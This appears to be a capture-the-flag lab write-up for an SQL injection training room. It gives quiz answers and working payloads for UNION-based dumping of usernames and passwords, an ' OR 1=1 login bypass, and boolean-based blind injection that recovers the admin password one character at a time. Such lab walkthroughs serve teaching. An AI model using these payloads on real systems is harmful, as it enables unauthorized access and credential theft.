 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

#### `Task 1: Brief`
##### - What does SQL stand for?
	- Structured Query Language
	
#### `Task 2: What is a Database?`
##### - What is the acronym for the software that controls a database?
	- DBMS
	
##### - What is the name of the grid-like structure which holds the data?
	- Table
	
#### `Task 3: What is SQL?`
##### - What SQL statement is used to retrieve data?
	- SELECT
	
##### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
##### - What SQL statement is used to add data?
	- INSERT

#### `Task 4: What is SQL Injection?`
##### - What character signifies the end of an SQL query?
	- ;

#### `Task 5: In-Band SQLi?`
Deploy the machine, then use the given commands by inserting it next to the last parameter.
- This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
- This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
- This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
- This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will be able to find the username and password, then you can proceed inputting it in the login form and you will get the flag in the next page.

#### `Task 6: Blind SQLi - Authentication Bypass`
The next one is basically bypassing the authentication with the help of simple SQL injection,
In the login form you can basically input any username you want but in the password section I used- 
```
' OR 1=1;--
```
This means that the server will receive the payload as an true statement and will proceed to login the account.

#### `Task 7: Blind SQLi - Boolean Based`
This task will have an indicator when the characters that are being type are equal to the actual name of the database,table or column.
When the application will return true that means that you are typing the correct character or number. 

Firstly, we will use this code and it will return true since there are three columns in that table.
```
admin123' UNION SELECT 1,2,3;-- 
```
Then, we will guess for the correct database name for us to exploit the database.
```
admin123' UNION SELECT 1,2,3 where database() like 's%';--
admin123' UNION SELECT 1,2,3 where database() like 'sq%';--
admin123' UNION SELECT 1,2,3 where database() like 'sql%';--
```
By doing this cycle as much as possible the indicator will return true, so that we will know if we are getting the exact name for the database.
Then after we get the actual name of the database we will now search for the table name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'us%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'use%';--
```
After that we will now proceed getting the column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'id%';--
```
But we did find the other column name that is `id` and it is just basically nonsense for us so we will ignore it and continue finding other column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'userna%' and COLUMN_NAME !='id';--
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'passwo%' and COLUMN_NAME !='id';--
```
After we find the two column name that seems valuable to us which is `username` and `password` then we will now proceed to find the row or data in that column.
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
admin123' UNION SELECT 1,2,3 from users where username like 'ad%';--
admin123' UNION SELECT 1,2,3 from users where username like 'adm%';--
```
Then for the password-
```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '38%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '384%';--
```


